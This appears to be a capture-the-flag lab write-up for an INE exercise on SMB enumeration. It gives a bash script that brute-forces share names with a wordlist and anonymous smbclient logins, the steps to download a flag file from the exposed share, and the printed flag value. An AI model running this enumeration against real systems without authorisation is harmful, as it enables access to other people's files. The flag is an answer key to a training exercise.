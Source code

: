 # SMB Enumeration: Anonymous Access

## Challenge Title
SMB Share with Anonymous Access

## Category
Assessment Methodologies – Enumeration

## Lab Link
[INE Lab](https://my.ine.com/CyberSecurity/courses/d707f31c-913d-477e-951e-74503392e9ae/assessment-methodologies-enumeration/lab/24c50c27-185b-4541-a88f-e2a12811053e)

---

## Description

The goal of this challenge is to identify an SMB share that allows **anonymous access**, enumerate its contents, and retrieve a hidden flag.

---

## Tools Used

- `smbclient`: to query SMB shares
- `bash`: to script brute-force enumeration of share names
- `nano` / `chmod`: to edit and execute the script

---

## Step-by-Step Walkthrough

### 🔹 Step 1: Initial Enumeration with `smbclient`

```bash
smbclient -L //target.ine.local -N
```
![Step 1 - Initial SMB Error](./1.png)

### 🔹 Step 2: Create Enumeration Script (shares.sh)

```bash
nano shares.sh
```
Paste the following script:
```bash
#!/bin/bash

TARGET="target.ine.local"
WORDLIST="./shares.txt"

if [ ! -f "$WORDLIST" ]; then
    echo "Wordlist not found: $WORDLIST"
    exit 1
fi

while read -r SHARE; do
    echo "Testing share: $SHARE"
    smbclient //$TARGET/$SHARE -N -c "ls" &>/dev/null

    if [ $? -eq 0 ]; then
        echo "[+] Anonymous access allowed for: $SHARE"
    else
        echo "[-] Access denied for: $SHARE"
    fi
done < "$WORDLIST"
```
Make it executable:
```bash
chmod +x shares.sh
```
![Step 2 - Created Script](./2.png)

### 🔹 Step 3: Create the Wordlist (shares.txt)
```text
publicdata
communitydata
openstorage
freestorage
accessiblestorage
pubstorage
commonstorage
publicarchive
sharedarchive
commonarchive
pubarchive
opendocs
freedocs
communitydocs
accessibledocs
commondocs
pubdocs
publicfiles
openfiles
freefiles
sharedfiles
accessiblefiles
communityfiles
commonsfiles
pubfiles
openvault
freevault
accessiblevault
publicvault
commonvault
openlibrary                                                                                                                                                                                                                                
pubvault                                                                                                                                                                                                                                   
freelibrary                                                                                                                                                                                                                                
accessiblelibrary                                                                                                                                                                                                                          
worldstoragebin                                                                                                                                                                                                                            
universalstoragebin                                                                                                                                                                                                                        
sharedstoragebin                                                                                                                                                                                                                           
collectivestoragebin                                                                                                                                                                                                                       
mutualstoragebin                                                                                                                                                                                                                           
globalarchivebin
worldarchivebin
universalarchivebin
```

### 🔹 Step 4: Run the Script
```bash
./shares.sh
```
![Step 3 - Brute Forcing Shares](./3.png)

Output:
You’ll see lots of denied messages until:
```css
[+] Anonymous access allowed for: pubfiles
```
![Step 4 - Found Anonymous Access](./4.png)

That means pubfiles is accessible anonymously.

### 🔹 Step 5: Access the Share
```bash
smbclient //target.ine.local/pubfiles -N
```
List contents:
```bash
smb: \> ls
```
You’ll see something like:
flag1.txt

### 🔹 Step 6: Download the Flag
```bash
smb: \> get flag1.txt
```
Exit the session:
```bash
smb: \> exit
```
![Step 5 - Retrieved Flag](./5.png)

### 🔹 Step 7: View the Flag
```bash
cat flag1.txt
```
![Step 6 - Viewed Flag Content](./6.png)

✅ Final Output:
FLAG{56a55b23a464f5b8893fe22c6e3d611}

## Conclusion
This lab highlights the importance of checking for misconfigured Samba shares that allow anonymous access. Attackers can exploit this to discover sensitive files like backup data, credentials, or flags.

## Files Included
- `shares.sh`: The script used to enumerate shares
- `shares.txt`: Wordlist of possible SMB share names
- `flag1.txt`: Retrieved flag from the anonymous share
